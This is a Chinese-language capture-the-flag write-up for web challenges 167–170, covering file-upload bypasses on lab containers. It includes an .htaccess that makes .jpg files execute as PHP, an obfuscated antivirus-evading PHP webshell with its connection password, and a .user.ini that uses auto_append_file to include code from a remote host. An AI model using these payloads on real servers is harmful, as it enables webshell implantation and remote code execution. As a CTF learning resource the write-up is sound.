### web167

开启容器

提示：

```
httpd
```

`.htaccess` 文件是  Apache HTTP 服务器的目录级配置文件，它允许用户覆盖 Web 服务器的系统范围设置，而无需修改全局配置文件（例如 `httpd.conf` 或 `apache2.conf`）。

这里我们可以通过上传  `.htaccess` 文件，其内容设置如下：

```cobol
<FilesMatch ".jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```



这里先改为 jpg 上传绕过前端限制后再改回 .htaccess 放包：

这个配置文件上传成功后，就会使  jpg 后缀的文件都被当做 php 文件解析。

接下来我们直接将一句话木马改为 jpg 后缀上传：


实现 RCE




### web168

开启容器

前端还是只能传 png



免杀木马、

```
<?php $bFIY=create_function(chr(25380/705).chr(92115/801).base64_decode('bw==').base64_decode('bQ==').base64_decode('ZQ=='),chr(0x16964/0x394).chr(0x6f16/0xf1).base64_decode('YQ==').base64_decode('bA==').chr(060340/01154).chr(01041-0775).base64_decode('cw==').str_rot13('b').chr(01504-01327).base64_decode('ZQ==').chr(057176/01116).chr(0xe3b4/0x3dc));$bFIY(base64_decode('NjgxO'.'Tc7QG'.'V2QWw'.'oJF9Q'.''.str_rot13('G').str_rot13('1').str_rot13('A').base64_decode('VQ==').str_rot13('J').''.''.chr(0x304-0x2d3).base64_decode('Ug==').chr(13197/249).str_rot13('F').base64_decode('MQ==').''.'B1bnR'.'VXSk7'.'MjA0N'.'TkxOw'.'=='.''));?>
```

连接密码: TyKPuntU







### web169

开启容器

```
高级免杀
```

前端只能传 zip，抓包绕过即可

使用远程文件包含

.user.ini

```
GIF89a
auto_append_file=http://796401402:14000/1
```



再上传一个 php，这里内容无所谓，真正的木马在配置文件中执行


实现 RCE


### web170

开启容器

```
终极免杀
```

远程包含启动







好用爱用
